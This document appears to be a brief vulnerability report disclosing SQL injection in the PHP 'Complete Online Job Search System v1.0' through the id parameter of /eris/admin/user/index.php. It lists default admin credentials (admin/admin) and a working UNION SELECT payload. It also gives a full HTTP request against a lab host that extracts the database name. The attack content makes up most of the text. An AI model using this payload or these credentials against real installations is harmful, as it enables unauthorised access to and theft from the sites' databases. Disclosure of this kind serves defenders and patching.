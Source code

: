 # Complete Online Job Search System v1.0 has SQL injection

BUG_Author：朝歌

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/admin/user/index.php?view=edit&id=

Vulnerability location: /eris/admin/user/index.php?view=edit&id=,id

Current database name: erisdb

[+] Payload: /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ // Leak place ---> id

```sql
GET /eris/admin/user/index.php?view=edit&id=-00018%27%20union%20select%201,database(),3,4,5,6--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849254-9d50f1e7-d17c-4e8a-ae71-88d9fca54657.png)

![image](https://user-images.githubusercontent.com/54017627/170849257-ac884948-2f73-497f-89cd-c710ddd1f86f.png)
